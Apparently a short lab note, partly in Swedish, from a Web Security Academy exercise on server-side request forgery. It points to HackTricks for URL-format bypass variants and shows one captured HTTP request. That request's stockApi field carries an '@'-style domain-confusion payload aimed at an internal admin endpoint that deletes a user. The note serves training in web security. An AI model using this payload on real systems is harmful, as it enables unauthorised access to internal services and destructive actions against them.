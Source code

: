 see [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass#domain-confusion) för fler varianter
domain confusion

```
POST /product/stock HTTP/2
Host: 0a24008304756a5f81d848b600c2001c.web-security-academy.net
Cookie: session=bHevPKytUN8sxWIIAzwPU2UZqptn9Nth
Content-Length: 56
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: */*
Origin: https://0a24008304756a5f81d848b600c2001c.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a24008304756a5f81d848b600c2001c.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=@192.168.0.12:8080/admin/delete?username=carlos
```